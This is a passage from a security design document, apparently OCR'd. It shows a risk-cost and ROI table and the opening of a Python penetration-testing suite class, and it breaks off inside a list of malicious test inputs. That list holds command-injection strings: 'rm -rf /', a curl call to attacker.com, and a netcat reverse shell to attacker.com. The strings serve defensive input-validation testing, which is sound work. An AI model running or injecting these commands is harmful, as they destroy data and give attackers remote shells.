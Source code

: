 | Risk Category | Original Cost | Mitigated Cost | Savings |
|---------------|---------------|----------------|---------|
| Data Breach | $4,000,000 | $200,000 | $3,800,000 |
| Compliance Violation | $500,000 | $50,000 | $450,000 |
| System Downtime | $100,000/hour | $10,000/hour | $90,000/hour |
| Reputation Damage | $2,000,000 | $100,000 | $1,900,000 |
| **Total Annual Savings** | - | - | **$6,150,000** |

### 10.3 ROI Analysis

- **Initial Investment**: $260,000
- **Annual Operating Cost**: $612,000
- **Annual Risk Savings**: $6,150,000
- **Net Annual Benefit**: $5,538,000
- **ROI**: 2,130%

---

## 11. Testing and Validation Procedures

### 11.1 Security Testing Framework

#### Penetration Testing Checklist
```python
class SecurityTestSuite:
    def __init__(self):
        self.test_results = []
    
    async def test_authentication_bypass(self):
        """Test for authentication bypass vulnerabilities"""
        tests = [
            self._test_token_manipulation,
            self._test_session_hijacking,
            self._test_credential_brute_force,
            self._test_multi_factor_bypass
        ]
        
        for test in tests:
            result = await test()
            self.test_results.append(result)
    
    async def test_authorization_elevation(self):
        """Test for privilege escalation"""
        tests = [
            self._test_role_escalation,
            self._test_resource_access_bypass,
            self._test_permission_inheritance,
            self._test_policy_manipulation
        ]
        
        for test in tests:
            result = await test()
            self.test_results.append(result)
    
    async def test_input_validation(self):
        """Test input validation effectiveness"""
        malicious_inputs = [
            '; rm -rf /',
            '$(curl attacker.com)',
            '`nc -e /bin/sh attacker.com 4444`',
```